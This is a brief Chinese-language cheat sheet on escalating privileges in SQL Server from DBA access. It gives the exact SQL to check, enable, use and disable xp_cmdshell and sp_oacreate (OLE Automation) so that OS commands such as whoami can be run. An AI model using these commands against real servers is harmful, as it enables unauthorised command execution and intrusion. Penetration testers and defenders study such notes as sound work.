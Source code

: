 # SQL Server 提权

## xp_cmdshell 提权

1. 利用条件
    - 有 DBA 权限, 05版本可获得 system 权限, 08是network权限
    - 依赖 xplog70.dll
2. 利用流程
    - 判断 xp_cmdshell 是否开启
        ```sql
        exec master..xp_cmdshell 'ver'
        ```
    - 开启 xp_cmdshell
        ```sql
        exec sp_configure 'show advanced options', 1; reconfigure;
        exec sp_configure 'xp_cmdshell', 1; reconfigure;
        ```
    - 命令执行
        ```sql
        exec master..xp_cmdshell 'whoami'
        ```
    - 关闭 xp_cmdshell
        ```sql
        exec sp_configure 'show advanced options', 1; reconfigure;
        exec sp_configure 'xp_cmdshell', 0; reconfigure;
        ```

## sp_oacreate 提权

1. 工作原理
    - 开启外围应用配置器中的 `OleAutomationEnabled`, 并调用 sp_oacreate 执行系统命令
2. 利用条件
    - DBA 权限
    - 依赖 odsole70.dll
3. 提权流程
    - 判断 sp_oacreate 是否开启
        ```sql
        declare @shell int exec sp_oacreate 'wscript.shell'
        ```
    - 开启 sp_oacreate
        ```sql
        exec sp_configure 'show advanced options', 1; reconfigure;
        exec sp_configure 'Ole Automation Procedures', 1; reconfigure;
        ```
    - 执行系统命令
        ```sql
        declare @shell int exec sp_oacreate 'wscript.shell',@shell output exec sp_oamethod
        @shell, 'run', null, 'c:/windows/system32/cmd.exe whoami> c:/Temp/cmd.txt'
        ``` 
    - 关闭 sp_oacreate
        ```sql
        exec sp_configure 'show advanced options', 1; reconfigure;
        exec sp_configure 'Ole Automation Procedures', 0; reconfigure;
        ```